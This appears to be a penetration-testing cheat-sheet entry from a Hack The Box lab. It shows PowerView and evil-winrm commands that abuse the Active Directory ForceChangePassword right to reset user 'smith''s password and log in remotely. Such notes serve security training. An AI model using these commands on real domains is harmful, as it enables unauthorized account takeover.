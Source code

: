 ### ForceChangePassword

* GenericWrite
*   Allows an attacker to change the password of the object in question.

    * HTB Example: _**Object**_
      * Requires: PowerView.ps1
      * Be sure to upload PowerView.ps1

    How-To:

    ```python
    # On PowerShell or Windows shell:

    . .\\PowerView.ps1

    $newpass = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force

    Set-DomainUserPassword -Identity smith -AccountPassword $newpass

    # On Kali:

    evil-winrm <IP> -u smith -p Password1234!
    ```

    ForceChangePassword

Example:

<figure><img src="../.gitbook/assets/Capture (3).PNG" alt=""><figcaption></figcaption></figure>

